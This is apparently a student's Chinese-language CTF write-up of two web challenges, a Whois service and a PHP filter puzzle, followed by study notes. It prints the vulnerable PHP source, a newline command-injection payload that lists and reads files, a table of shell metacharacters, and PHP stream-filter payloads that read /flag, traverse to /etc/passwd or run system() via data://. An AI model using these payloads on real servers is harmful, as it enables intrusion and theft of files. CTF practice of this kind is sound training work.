




# 4.2-二队-樊亦暄-Whois，close eyes

### 1.Whois（[HackINI](https://ctf.bugku.com/challenges/index/gid/2/tag/98.html) [2022](https://ctf.bugku.com/challenges/index/gid/2/tag/100.html)）

靶机：[http://49.232.142.230:15275](http://49.232.142.230:15275/)

描述： A web-based Whois service

提示: There was a problem with the first version, this is the fixed version.

思路：

1.提示说在第一版本有问题，这个是已修复版本，说明我们需要找到第一版本或者第一版本的相关信息

2.尝试输入**flag**作为query，点击search


查询后发现其访问了query.php，后有属性**query**与**host**即前面两个输入框

2.访问文件query.php，返回了源码


```php
<?php

error_reporting(0);
//对host与query使用了正则过滤
$output = null;
$host_regex = "/^[0-9a-zA-Z][0-9a-zA-Z\.-]+$/";//（字符串允许数字大小写字母）.-
$query_regex = "/^[0-9a-zA-Z\. ]+$/";//（字符串允许数字大小写字母）.


if (isset($_GET['query']) && isset($_GET['host']) && 
      is_string($_GET['query']) && is_string($_GET['host'])) {

  $query = $_GET['query'];
  $host = $_GET['host'];
  //判断，如果
  if ( !preg_match($host_regex, $host) || !preg_match($query_regex, $query) ) {
    $output = "Invalid query or whois host";
  } else {
    //shell_exec调用本机whois，host和query被直接拼接进去
      $output = shell_exec("/usr/bin/whois -h ${host} ${query}");
  }

} 
else {
  highlight_file(__FILE__);
  exit;
}

?>

<!DOCTYPE html>
<html>
  <head>
    <title>Whois</title>
  </head>
  <body>
    <pre><?= htmlspecialchars($output) ?></pre>
  </body>
</html>
```

（1）host与query的正则过滤：结合后面的shell可以考虑换行符是否可以通过过滤，但不能直接使用，可能被绕过，所以要使用它的Url编码，host的值至少两个字母

（2）shell_exec调用本机whois，联系上面的正则过滤，可以通过绕过过滤，去执行shell中命令字符，例如查看根目录

3.综上所述，payload为

```
query.php?host=aa%0a&query=ls
```

返回如下：

4.

```
thisistheflagwithrandomstuffthatyouwontguessJUSTCATME
```

大写为cat（查询）它，尝试构造payload，查询一下

要注意cat的格式为**cat 要查询的东西**

空格需要用Url编码，即%20代替

```
query.php?host=aa%0a&query=cat%20thisistheflagwithrandomstuffthatyouwontguessJUSTCATME
```

5.得到答案

```
shellmates{i_$h0U1D_HaVE_R3AD_7HE_dOc_W3Ll_9837432986534065}
```



### 2.filter-madness（[WolvCTF](https://ctf.bugku.com/challenges/index/gid/2/tag/96.html) [2023](https://ctf.bugku.com/challenges/index/gid/2/tag/97.html)）

靶场：[http://49.232.142.230:16256](http://49.232.142.230:16256/)

思路：

1.看着题目，应该是过滤器绕过（**PHP 流过滤器****PHP 流过滤器**）

2.打开靶场，发现



3.尝试info，试着查找**ctf**，结果直接出来了



```
wctf{m4y6e-th15-15-4-6u9-1n-php-83047}
```

但题目要考察的不是这个，尝试按照正常方法去做，但没有回显


# 题后总结

### （一）WHOIS

 查询互联网资源注册信息的核心工具

通过 WHOIS 查询一个域名，通常可以得到以下信息（具体能查到多少，取决于域名后缀和所有者是否开启了隐私保护）：

| 信息类型       | 说明                                                         |
| :------------- | :----------------------------------------------------------- |
| **注册商**     | 域名是在哪家公司注册的（例如 GoDaddy、阿里云、Namecheap）。  |
| **注册人**     | 域名的所有者。现在很多会因隐私保护而隐藏，显示“数据已隐藏”或“REDACTED FOR PRIVACY”。 |
| **注册日期**   | 域名首次注册的日期。                                         |
| **到期日期**   | 域名当前有效期截止到哪一天，需要在此日期前续费。             |
| **域名服务器** | 管理该域名 DNS 解析的服务器地址。                            |
| **状态**       | 域名当前状态，如 `ok`（正常）、`clientHold`（注册商锁定）、`serverHold`（注册局锁定）等。 |

### (二)Shell 中会改变命令的含义字符：

| 类别           | 字符                  | 作用                     | 例子                 |
| :------------- | :-------------------- | :----------------------- | :------------------- |
| **命令分隔符** | `;` `&` `&&` `|` `\n` | 结束一条命令，开始另一条 | `ls; whoami`         |
| **重定向**     | `>` `>>` `<` `2>`     | 改变输入输出流向         | `ls > file`          |
| **命令替换**   | ``cmd`` `$(cmd)`      | 执行命令并用输出替换     | `echo $(whoami)`     |
| **变量**       | `$VAR` `${VAR}`       | 展开变量值               | `echo $PATH`         |
| **通配符**     | `*` `?` `[ ]`         | 匹配文件名               | `ls *.txt`           |
| **引号/转义**  | `'` `"` `\`           | 改变字符的解释方式       | `echo "hello world"` |

**攻击者的思考路径**：只要能让用户输入中包含这些字符中的一个，并且程序没有正确处理，就可能让 Shell 执行意外的命令。

### （三）常见的filter绕过技巧

#### 1. Base64 编码绕过

提交：

```
/convert.base64-encode/resource=/flag
```

系统执行：

```
file_get_contents("php://filter/convert.base64-encode/resource=/flag")
```

返回 flag 的 base64 编码。

#### 2. 双重编码

```
/convert.base64-encode|convert.base64-encode/resource=/flag
```

#### 3. Rot13 绕过

```
/string.rot13/resource=/flag
```

#### 4. 路径遍历绕过（如果直接 /flag 被拦截）

```
//resource=/etc/passwd/../../../flag
```

#### 5. 利用 data:// 协议 + dechunk

提交：

```
/resource=data:,14%0D%0Afl%61g%20content%0D%0A0%0D%0A|dechunk
```

------

##### 真正能读 flag 的 madness

```
//resource=/flag
```

如果 `flag` 字符串被过滤，用十六进制或 URL 编码绕过：

```
//resource=/fl%61g
```

如果连 `/` 都被限制，用 `data://` 配合 PHP 过滤器执行代码（如果有 `allow_url_include`）：

```
/read=convert.base64-encode/resource=data://text/plain,<?php system('cat /flag');?>
```

### （四）dechunk 

dechunk`是 PHP 流过滤器（stream filter）中的一个，全称是 **"decode chunked"**，作用是**解码 HTTP Chunked Transfer Encoding 格式的数据**。

------

#### 1. 什么是 Chunked Encoding？

HTTP 协议中，服务器可以分块发送数据，格式如下：

```
[块长度（十六进制）]\r\n
[数据内容]\r\n
[块长度（十六进制）]\r\n
[数据内容]\r\n
0\r\n
\r\n
```

例如：

```
5\r\n      ← 第一块长度 = 5 字节
Hello\r\n  ← 数据
6\r\n      ← 第二块长度 = 6 字节
 World\r\n ← 数据
0\r\n      ← 长度 0，表示结束
\r\n
```

解码后得到：`Hello World`

------

#### 2. dechunk 的作用

dechunk`过滤器接收 chunked 格式的数据，输出**解码后的原始数据**。

| 输入（chunked 格式）        | 经过 `dechunk` | 输出      |
| :-------------------------- | :------------- | :-------- |
| `"5\r\nHello\r\n0\r\n\r\n"` | →              | `"Hello"` |
| `"3\r\nabc\r\n0\r\n\r\n"`   | →              | `"abc"`   |

------

##### 例子解析

 payload：

```
resource=data:,14%0D%0Azombies%20for%20the%20flag%0D%0A0%0D%0A|dechunk
```

第一步：**data: **协议创建的数据

```
14\r\nzombies for the flag\r\n0\r\n
```

第二步：**|dechunk**解码

- `14`（十六进制）= `20` 字节
- 后面 20 字节是 `zombies for the flag`
- `0` 表示结束

**第三步：输出**

```
zombies for the flag
```

